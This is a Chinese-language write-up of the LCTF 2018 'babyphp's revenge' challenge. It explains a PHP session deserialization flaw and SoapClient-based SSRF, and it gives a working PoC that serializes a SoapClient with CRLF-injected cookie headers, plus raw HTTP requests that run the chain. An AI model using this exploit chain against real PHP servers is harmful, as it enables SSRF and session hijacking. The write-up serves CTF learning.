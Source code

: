 # babyphp's revenge
题目直接给出源码

```php
//index.php
<?php
highlight_file(__FILE__);
$b = 'implode';
call_user_func($_GET[f],$_POST);
session_start();
if(isset($_GET[name])){
    $_SESSION[name] = $_GET[name];
}
var_dump($_SESSION);
$a = array(reset($_SESSION),'welcome_to_the_lctf2018');
call_user_func($b,$a);
?>

//flag.php
session_start();
echo 'only localhost can get flag!';
$flag = 'LCTF{*************************}';
if($_SERVER["REMOTE_ADDR"]==="127.0.0.1") { 
    $_SESSION['flag'] = $flag;
} 
```

## Session 反序列化漏洞
该题跟 XCTF-Final-2018-bestphp 相似，其实也是同一个出题人。

看到 flag.php 猜测 SSRF，自然想到了 n1ctf-2018-hard_php，利用 `SoapClient` 进行 SSRF。而要利用该类则需要反序列化漏洞才行，这里涉及到 `session_start` 的 `options` 参数中的另一个 session 配置项 `serialize_handler`，该参数控制了 session的解析引擎，所以可以借用由解析引擎的不同导致的 session 反序列化，而此题刚好存在变量覆盖漏洞

## SSRF

因为利用 `SoapClient` 进行 SSRF 需要调用 `__call`方法，这里其实可以利用 `call_user_func` 执行对象中的方法(即 `welcome_to_the_lctf2018`)，从而触发 `__call`。

![](img/call_user_func.png)

pupiles 师傅的 PoC：
```php
$target='http://127.0.0.1/flag.php';
$b = new SoapClient(null,array('location' => $target,
                               'user_agent' => "AAA:BBB\r\n" .
                                             "Cookie:PHPSESSID=your_sessid",
                               'uri' => "http://127.0.0.1/"));

$se = serialize($b);
echo urlencode($se);
```

写入 session
```HTTP
POST /?f=session_start&name=上面生成的代码 HTTP/1.1
Host: kali:8001
Connection: close
Cookie: PHPSESSID=your_sessid
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

serialize_handler=php_serialize
```

访问触发发序列化及 SSRF
```HTTP
POST /?f=extract&name=Soapclient HTTP/1.1
Host: 172.81.210.82
Connection: close
Cookie: PHPSESSID=your_sessid
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

b=call_user_func
```

## References
[谈谈LCTF2018](http://pupiles.com/lctf2018.html)

[session_start()&bestphp](https://www.anquanke.com/post/id/164569)